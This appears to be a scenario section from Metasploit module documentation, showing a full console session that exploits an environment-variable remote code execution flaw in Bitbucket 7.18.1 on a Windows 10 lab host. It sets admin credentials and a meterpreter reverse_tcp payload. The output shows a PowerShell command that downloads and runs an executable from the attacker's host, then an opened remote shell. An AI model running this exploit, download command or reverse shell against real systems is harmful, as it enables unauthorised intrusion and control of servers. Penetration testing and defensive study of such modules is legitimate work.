 ### Windows 10, x64 - Bitbucket `v7.18.1`, Windows Dropper

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.171
rhost => 192.168.140.171
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username admin
username => admin
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password P@ssword
password => P@ssword
msf6 exploit(multi/http/bitbucket_env_var_rce) > set target 2
target => 2
msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/bitbucket_env_var_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version 7.18.1 of Bitbucket
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Retrieving security token
[*] Project creation was successful
[+] Successfully created repository 'GqFji'
[+] Commits added: 99a9d18e3a72d01bbdaac9bd8d84ba97bb3d7dad, 85a051cb3572b13e59816ff51b527706d66ae392
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/ZOwoRUPRlio
[*] Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile .\\xnbrdApP.exe http://192.168.140.1:8080/ZOwoRUPRlio", ".\\xnbrdApP.exe", "del .\\xnbrdApP.exe"]
[*] Client 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237) requested /ZOwoRUPRlio
[*] Sending payload to 192.168.140.171 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1237)
[*] Command Stager progress -  75.19% done (97/129 bytes)
[*] Sending stage (175686 bytes) to 192.168.140.171
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.171:51236) at 2023-03-13 14:29:25 -0500
[*] Command Stager progress -  86.05% done (111/129 bytes)
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Changing user name back to 'admin'
[*] Attempting to delete repository 'GqFji'
[+] Repository has been deleted
[*] Now attempting to delete project 'eTzDRa'
[+] Project has been deleted

meterpreter > getuid
Server username: DESKTOP-5JSUGC8\atlbitbucket
meterpreter > sysinfo
Computer        : DESKTOP-5JSUGC8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
```
